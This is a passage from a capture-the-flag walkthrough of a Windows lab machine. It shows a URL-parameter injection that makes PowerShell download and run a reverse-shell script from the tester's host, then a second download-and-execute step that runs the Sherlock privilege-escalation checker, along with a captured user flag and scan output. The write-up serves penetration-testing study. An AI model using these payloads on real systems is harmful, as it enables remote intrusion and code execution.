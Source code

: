 ![Image](/assets/Screenshot 2024-09-09 at 10.24.09 AM.png)

This means that our PowerShell must be called correctly if we want it to function correctly.

`/?search=%00{.+exec|c:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/revtcp.ps1').}`

MAKE SURE EVERYTHING IS SQUARE. URL encoded, correct paths, listeners, etc.

![Image](/assets/Screenshot 2024-09-09 at 10.42.16 AM.png)

We should get notified on our Python server and Netcat listener as well

![Image](/assets/Screenshot 2024-09-09 at 10.46.22 AM.png)
![Image](/assets/Screenshot 2024-09-09 at 10.46.43 AM.png)

Once here, we can start to get information. `ps` and `systeminfo`, as always.

![Image](/assets/Screenshot 2024-09-09 at 10.48.37 AM.png)

We can see x64 structure, and we can pat ourselves on the back for making our lives easier earlier. 

Not much rooting around necessary for the user flag, as we spawned in the `/Users/kostas/Desktop` directory. Simply request `more user.txt`:

`USER:09a0c26d9fe478f0f4a349d99fc8cfc4`

### Privilege Escalation

For privilege escalation, we're going to use a tool called Sherlock, which is a privilege escalation PowerShell tool that was created for Windows about 7 years ago. There's an updated version out by the same author now called Watson. I'm going to download both, but we're using Sherlock for this box given the age and parameters of the machine. `cd` to the `/opt` directory and clone the repo.

`git clone https://github.com/rasta-mouse/Sherlock.git`

Once finished, we're going to copy it into our chosen directory to edit and serve the payload. `cp` to copy to another file, and `mv` to move as I discussed above. There are plenty of function options in the script, but for now, we're going to append `function Find-AllVulns` to the end of our `.ps1` file.

![Image](/assets/Screenshot 2024-09-09 at 11.09.42 AM.png)

Now, to download served contents on our Python server, we can use the following script used before:

`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/dasp.ps1')` 

(I chose the name `dasp.ps1` Dunno why...)

Here is our output below:

```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/dasp.ps1')


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
```